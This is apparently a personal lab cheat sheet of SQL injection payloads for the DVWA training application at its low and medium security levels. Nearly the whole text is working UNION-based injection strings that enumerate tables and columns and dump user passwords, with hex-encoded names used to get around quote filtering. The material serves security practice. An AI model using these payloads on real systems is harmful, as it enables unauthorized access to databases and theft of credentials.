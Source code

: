 # SQL injection
<h3>low security level</h3>

- To find all tables, from a database called “dvwa”: 
`1' UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema = 'dvwa'#`

 - To find all columns, from the database called “dvwa”: `1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema ='dvwa'#`

 - To find all column names of the table named “users”, from a database called “dvwa”: `1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'dvwa'#`

 - To get the content of one column of the table named “users”, from a database called “dvwa”: `1' UNION SELECT password,null FROM dvwa.users#`
<h3>medium security level</h3>
 
 - To find all tables, from a database called “dvwa”: `1 union select table_name,null from information_schema.tables where table_schema = 0x64767761`
 - Note: `0x64767761` is DB name `dvwa` but decoded to hex u can use this website for decoding : https://cryptii.com/pipes/hex-decoder
 
 - To find all columns, from the database called “dvwa”: `1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema = 0x64767761`

 - To find all column names of the table named “users”, from a database called “dvwa”: `1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 0x7573657273 AND table_schema = 0x64767761`

 - To get the content of one column of the table named “users”, from a database called “dvwa”: `1 UNION SELECT password,null FROM dvwa.users`
